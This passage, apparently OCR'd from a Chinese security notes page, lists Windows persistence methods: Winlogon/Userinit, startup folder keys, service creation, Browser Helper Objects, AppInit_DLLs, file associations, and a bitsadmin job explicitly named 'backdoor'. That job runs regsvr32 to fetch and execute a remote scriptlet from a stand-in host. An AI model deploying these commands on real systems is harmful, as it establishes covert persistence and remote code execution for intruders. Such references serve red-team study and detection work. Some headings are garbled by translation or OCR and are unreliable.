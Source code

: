 ##### 5、Userinit Key

WinLogon进程加载的login scripts,具体键值：



HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon-

##### 6、Startup Keys



HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User Shell Folders-
HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders-
HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders-
HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User Shell Folders-

##### 7、Services

创建服务

1-

sc create \[ServerName\] binPath= BinaryPathName-

##### 8、Browser Helper Objects

本质上是Internet Explorer启动时加载的DLL模块

1-

HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Browser Helper Objects-

##### 9、AppInit\_DLLs

加载User32.dll会加载的DLL

1-

HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\AppInit\_DLLs-

##### 10、文件关联


HKEY\_LOCAL\_MACHINE\\Software\\Classes-
HKEY\_CLASSES\_ROOT-

##### 11、[位管理员](http://www.liuhaihua.cn/archives/357579.html)


```
bitsadmin /create backdoor-
bitsadmin /addfile backdoor %comspec% %temp%\\cmd.exe-
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"-
bitsadmin /Resume backdoor-

```

##### 12、[微风](https://evi1cg.me/archives/Powershell_MOF_Backdoor.html)
